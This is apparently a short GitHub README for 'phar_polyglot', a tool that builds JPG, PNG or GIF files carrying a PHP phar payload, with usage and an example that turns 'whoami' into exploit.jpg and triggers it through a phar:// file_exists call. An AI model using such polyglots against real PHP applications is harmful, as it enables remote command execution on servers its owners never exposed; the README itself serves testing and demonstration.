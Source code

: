 # phar_polyglot
Generate phar polyglot for jpg, png and gif

# Usage
```
Usage: php -c php.ini phar_polyglot.php <command> [jpg|png|gif]
```

# Example
```
php -c php.ini phar_polyglot.php whoami jpg
[+] Polyglot erfolgreich erstellt: exploit.jpg

[+] Lokaler Test (triggert den Exploit):
php -r 'file_exists("phar://exploit.jpg/test.txt");'
kali
```
